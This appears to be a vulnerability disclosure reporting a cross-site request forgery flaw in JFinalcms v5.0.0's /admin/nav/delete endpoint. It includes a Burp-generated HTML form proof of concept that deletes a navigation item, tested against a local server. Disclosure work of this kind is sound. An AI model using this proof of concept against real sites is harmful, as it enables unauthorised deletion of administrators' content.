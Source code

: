 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/nav/delete

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/bd49ee33-46a3-4e36-a432-483f54a037f8)


create poc:

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/9688229f-527a-464b-ac10-1ed94ab81f5a)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/nav/delete" method="POST">
      <input type="hidden" name="id" value="96" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
successed

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/ba9b0fac-e895-4bae-a8a5-6de90b8916ab)
